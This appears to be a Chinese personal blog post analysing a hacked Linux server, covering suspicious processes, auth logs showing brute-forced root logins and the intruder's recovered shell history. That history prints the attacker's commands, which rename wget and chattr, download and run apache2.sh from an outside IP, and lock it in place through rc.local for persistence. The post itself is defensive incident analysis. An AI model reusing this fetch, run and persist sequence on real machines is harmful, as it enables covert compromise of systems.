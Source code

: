 果然在进程列表中找到了三个很可疑的进程：

$ ps aux
(...)
root     13648  0.0  0.1 23656   556 ?        Ss    Jan28   0:43 /etc/init.d/apache2.sh
root     14519  0.0  0.2 85872  1208 ?        S     Jan28   23:41 /usr/bin/icnanker
root     26595  0.0  0.2 61364  1224 ?        S     Jan28   0:00 /usr/bin/.sshd
(...)
第一，我没有装apache，apache2.sh这样的名字实在是太可疑了。

第二，.sshd这个进程的名字更可疑，sshd守护进程是sshd，伪装得太不像了。

第三，只有这三个进程都是在Jan28启动的，也就是1月28号，这让我联想到29号造成的traffic flood。肯定有问题。

接着下意识的去翻阅登录日志：

# grep "Accepted" /var/log/auth.log.1
(...)
Jan 26 16:55:49 mon sshd[13955]: Accepted password for root from 61.160.247.8 port 1604 ssh2
Jan 28 17:12:03 mon sshd[30407]: Accepted password for root from 61.166.50.23 port 3343 ssh2
(...)
# grep "Jan 2[5-8] .*sshd.*Failed" /var/log/auth.log.1 | wc
  21806  355851 2333557
！！！！

Jan 26和 Jan 28都有人在我的机器上登录过root账号！Ip来源发现分别是云南和江苏的，也是非常诡异。接着让我更吃惊的是从Jan 25到Feb 28，共有2w+的暴破尝试！

在看到这些结果的瞬间其实我就明白了为何我会被攻破——因为我的密码设置得非常非常简单，简单到和“123456”这样的密码差不多。这个时候我的表情是这样的：
{% asset_img '2.jpg' %}


立马切换到root用户，查看root命令记录，看看能不能追踪到这个家伙在我机器上做过什么，同时在心里像上帝祈祷希望他没擦去脚印。

# history
(...)
    4  cp /usr/bin/wget /usr/bin/vget
    5  cp /usr/bin/chattr /usr/bin/lockr
    6  chmod 0 /usr/bin/chattr;chmod 0 /usr/bin/wget
    7  lockr +i /usr/bin/chattr;lockr +i /usr/bin/wget
    8  chmod 0755 /usr/bin/vget;chmod 0755 /usr/bin/lockr
    9  vget http://183.60.149.202:8080/apache2.sh
   10  mv /root/apache2.sh /etc/init.d/apache2.sh
   11  chmod 0755 /etc/init.d/apache2.sh
   12  nohup sh /etc/init.d/apache2.sh >/dev/null 2>&1 &
   13  lockr +i /etc/init.d/apache2.sh
   14  vi /etc/rc.local
   15  lockr +i /etc/rc.local
   16  less /etc/init.d/apache2.sh
感慨万千，万千感慨，“还好，这个傻逼没有擦去脚印”，哈哈哈哈哈。。

做抱拳状，站起，出自习室，接开水，回来，继续！

